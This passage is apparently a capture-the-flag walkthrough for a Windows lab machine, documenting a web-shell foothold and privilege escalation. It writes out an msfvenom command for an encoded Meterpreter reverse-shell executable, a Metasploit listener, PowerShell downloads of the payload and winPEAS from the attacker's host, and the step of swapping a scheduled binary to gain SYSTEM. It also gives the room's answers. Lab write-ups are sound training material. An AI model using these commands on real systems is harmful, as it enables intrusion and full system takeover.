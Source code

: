 - renamed the file to PostView.ascx and change the ip and port number, then upload and run according to the instruction inside

```
c:\windows\system32\inetsrv>whoami
iis apppool\blog
```


# task 4 - Windows Privilege Escalation

> What is the OS version of this windows machine?

- generate revshell.exe

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.8.240.61 LPORT=8989 -f exe -o revshell.exe
```

- upload revshell using the same web interface

- reverse shell listener
```
> use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST LPORT
```

- the file should end up in `C:\inetpub\wwwroot\App_Data\files > revshell.exe`, run it to get a reverse shell
or hosting it using python then download to `C:\Windows\Temp` by running:
```
powershell -c "Invoke-WebRequest -Uri 'http://10.8.240.61:8000/revshell.exe' -OutFile 'C:\Windows\Temp\revshell.exe'"
powershell -c "Invoke-WebRequest -Uri 'http://10.8.240.61:8000/winPEAS.bat' -OutFile 'C:\Windows\Temp\winPEAS.bat'"
```
then run it to get a reverse shell


# What is the OS version of this windows machine?
Windows 2012 R2 (6.3 Build 9600)

run `sysinfo`

# What is the name of the abnormal service running?
WindowsScheduler

Run winpeas or `ps`, and see if `wservice` or `wScheduler` running
If it is, see what tasks are being run, check the log and see how frequent what is being run etc. In this case, inside
`C:\Program Files (x86)\SystemScheduler\Events\20198415519.INI_LOG.txt`

`Message.exe` is being run every 30s; replacing that with revshell, then can get a shell as SYSTEM
